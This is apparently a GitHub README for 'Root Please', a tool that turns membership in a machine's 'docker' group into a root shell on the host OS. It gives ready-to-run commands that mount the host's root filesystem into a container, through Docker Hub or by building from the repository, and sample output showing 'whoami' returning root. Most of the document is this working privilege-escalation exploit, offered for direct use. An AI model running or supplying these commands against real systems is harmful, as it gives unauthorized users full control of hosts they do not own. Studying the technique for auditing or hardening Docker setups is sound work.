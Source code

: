 Root Please
===========

If you're a member of the 'docker' group on a machine, this command gives you a root shell on the host OS. [See my blog post for details](https://fosterelli.co/privilege-escalation-via-docker.md).

How to Use
----------

Though Docker Hub:

```bash
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -i -t rootplease
```

And the result:

```bash
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```
